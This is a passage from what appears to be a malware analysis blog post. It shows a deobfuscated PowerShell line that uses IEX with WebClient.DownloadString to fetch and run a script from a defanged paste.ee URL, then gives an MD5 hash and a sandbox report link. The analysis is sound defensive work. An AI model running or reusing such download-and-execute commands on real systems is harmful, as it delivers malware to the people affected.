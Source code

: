 ```python
```


This code will output the deobfuscated PowerShell for better readability and now we have;

```powershell
IeX(NeW-OBJeCT NeT.WeBCLIeNT).DOWNLOADSTRING('hxxps://paste.ee/r/2FDzd/0')

```


This is the deobfuscated PowerShell command. It downloads a script from the specified URL and executes it. As of **5/10/2024**, the URL returns a 404 error, indicating that the adversary has removed the malicious file hosted on the paste.ee domain, which could have provided further insights for our analysis. Overall, this code snippet builds a PowerShell command that ultimately downloads and executes a script from the URL **`hxxps://paste.ee/r/2FDzd/0`**. The use of concatenation and string manipulation obscures the script's intentions, making it harder to detect sometimes. The final execution line (**`iex(...)`**) is particularly concerning, as it invokes potentially malicious code from the internet, which can be the main payload.


## Threat Intelligence

By leveraging threat intelligence, we can uncover valuable resources and additional information about the file. We checked the file using the MD5 hash **e4895b941c8ea6d76630d6fcb2002292** on Filescan [here](https://www.filescan.io/uploads/66f3ae64c48f81cd6a0cd525/reports/ff23aa67-cdd6-4d34-a766-7b1307cb7ee0/overview) to determine if we could download the main payload, which was available at the time of this analysis as shown in Fig 5.

![Download and Continue](/assets/images/zoom/download_and_continue.png)
*Figure 5: Download and Continue Process*
